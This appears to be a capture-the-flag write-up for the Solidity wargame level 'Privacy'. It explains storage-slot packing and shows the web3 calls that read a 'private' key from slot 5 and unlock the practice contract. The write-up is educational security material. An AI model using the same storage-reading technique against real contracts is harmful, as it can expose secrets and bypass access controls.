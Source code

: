# 12. Privacy

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

## Vulnerability

As before, there is no privacy on blockchain. Even though the state variable `data` is private in the code, anyone can read its storage slot to get its value.
When allocating storage slots solidity will merge variables into the same storage slot when possible.

In that case :

| State Variable |   Size   | Storage Slot |
|:--------------:|:--------:|:------------:|
|     locked     |  8 bits  |       0      |
|       ID       | 256 bits |       1      |
|   flattening   |  8 bits  |       2      |
|  denomination  |  8 bits  |       2      |
|   awkwardness  |  16 bits |       2      |
|     data[0]    | 256 bits |       3      |
|     data[1]    | 256 bits |       4      |
|     data[2]    | 256 bits |       5      |


So we first need to read storage slot 5 :

```js
await web3.eth.getStorageAt(contract.address, 5);
// 0xd8e3ce9566999c1b45297e306d44eeda4e9afa62ea7c6108e93e1ba67704988f
```

Solidity casting on bytes is pretty straight forward, when casting from `bytes32` to `bytes16` it will only select the first 16 bytes.
The value that we are looking for is : `0xd8e3ce9566999c1b45297e306d44eeda`.

We can unlock the contract easily :

```js
await contract.unlock("0xd8e3ce9566999c1b45297e306d44eeda")
```

And win the challenge.